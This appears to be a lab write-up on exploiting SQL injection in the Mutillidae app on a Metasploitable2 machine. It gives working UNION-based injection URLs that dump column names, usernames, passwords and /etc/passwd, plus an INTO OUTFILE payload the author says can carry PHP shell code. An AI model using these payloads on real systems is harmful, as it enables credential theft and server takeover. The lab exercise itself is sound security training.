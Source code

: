 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url: http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

![Screenshot 2025-05-26 083550](https://github.com/user-attachments/assets/d6a3eeb2-4822-4933-9f36-68b20875f2b2)

Ex: (union select 1,username,password,is_admin,5 from accounts). http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2025-05-26 083620](https://github.com/user-attachments/assets/58166eb2-bd01-4090-9c18-b8c88c6656dd)

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

![Screenshot 2025-05-26 083633](https://github.com/user-attachments/assets/876ed970-1a31-46b3-acef-5e6aea76cf24)

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null). http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![Screenshot 2025-05-26 083702](https://github.com/user-attachments/assets/19ffac4c-1ce1-4ae2-ad64-299f8c47d899)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
